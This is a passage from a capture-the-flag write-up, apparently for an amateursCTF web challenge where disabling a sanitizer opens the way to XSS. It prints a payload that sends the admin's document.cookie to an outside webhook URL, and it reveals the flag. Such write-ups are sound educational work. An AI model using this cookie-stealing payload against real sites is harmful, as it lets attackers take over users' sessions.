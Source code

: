 Once sanitization is disabled, the challenge becomes a simple XSS. My rant's content:
```html
<img src="/" onerror="window.location='https://webhook.site/redacted/?'+document.cookie" />
```

Putting everything together, we find that the admin's cookie `flag` contained `amateursCTF{s@nit1zer_ap1_pr3tty_go0d_but_not_p3rf3ct}`.

## Thoughts
Before this challenge I only knew the idea behind DOM clobbering and had never tried it. The solution was very short in the end, but I needed a lot of research to get to it. I found it fun and educational, and that's why I decided to make a writeup. :)
